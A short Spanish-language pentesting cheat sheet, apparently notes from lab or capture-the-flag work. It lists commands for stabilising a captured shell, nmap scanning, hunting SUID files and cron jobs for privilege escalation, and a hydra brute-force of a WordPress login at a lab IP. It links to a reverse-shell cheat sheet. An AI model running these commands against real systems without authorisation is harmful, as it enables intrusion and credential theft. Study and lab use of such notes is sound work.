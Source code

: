 # COMANDOS MAS COMUNES PENTESTING 🚀

## Estabilizar shell 🔧
```
/usr/bin/script -qc /bin/bash /dev/null
Ctrl+z
stty raw -echo;fg
```
## NMAP básico 🔧
nmap -sC -sV -oN initial $IP

## Escalar priveligios 📖
```
cat /etc/crontab
```
Buscamos ficheros que con permiso SUID
	
SUID bits can be dangerous, some binaries such as passwd need to be run with elevated privileges (as its resetting your password on the system), however other custom files could that have the SUID bit can lead to all sorts of issues.
```
find / -perm -u=s -type f 2>/dev/null
```
Busqueda de ficheros ejecuables:
```
find / -type f -name "*.sh" 2>/dev/null
```

https://gtfobins.github.io/#

## Reverse shell 📖
https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/

## Técnicas varias 🔧
_Abrir terminal con python:_ python -c 'import pty;pty.spawn("/bin/bash")'
_Uso de hydra:_ hydra -L fsocity.dic -p test 10.10.192.186 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.192.186%2Fwp-admin%2F&testcookie=1:F=Invalid username' otra opción final: /S=302
_Encriptar gpg:_
```
gpg --list-keys --> listar claves
gpg --import /var/backup/root@harder.local.pub --> importar claves
gpg -er root command --> encryptar archivo con la clave
```
